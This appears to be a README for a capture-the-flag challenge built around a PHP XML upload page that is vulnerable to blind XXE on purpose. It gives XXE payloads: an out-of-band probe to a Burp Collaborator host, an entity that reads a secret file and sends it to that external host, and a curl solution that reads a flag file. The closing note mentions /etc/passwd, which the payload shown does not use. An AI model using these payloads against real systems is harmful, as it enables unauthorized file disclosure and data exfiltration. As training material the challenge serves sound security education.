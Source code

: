 ```
--> Challenge 3  : On WebPage will be an upload option to upload an XML File and a Backend XML Parser which will be vulnerable to BLIND XXE. The

Testing for BLIND XXE through BURP:

				<?xml version="1.0" ?>
				<!DOCTYPE root [
				<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
				]>
				<r></r>

Candidate will have to exploit XXE to read the contents of /home/fakeuser/secret. This will be the third flag.

				<?xml version="1.0" encoding="ISO-8859-1"?>
				<!DOCTYPE foo [
				<!ELEMENT foo ANY >
				<!ENTITY % xxe SYSTEM "file:///home/fakeuser/secret" >
				<!ENTITY exploit SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/%xxe;">
				]
				>
				<foo>&exploit;</foo>


```
Needs old version of PHP (preferable 5) to run.

Have put `header("Accept: application/xml, application/x-www-form-urlencoded");` to give hint for XML.

Solution
```bash
curl 'http://localhost:8000/index.php' \
-H 'content-type: application/xml' \
--data-raw $'<?xml version=\'1.0\' encoding=\'UTF-8\'?><\u0021DOCTYPE XXE [ <\u0021ENTITY xxe SYSTEM \'file:///flag.txt\'> ]><root><text>&xxe;</text></root>'
```
Here `/etc/passwd` to be replaced by the flag path.
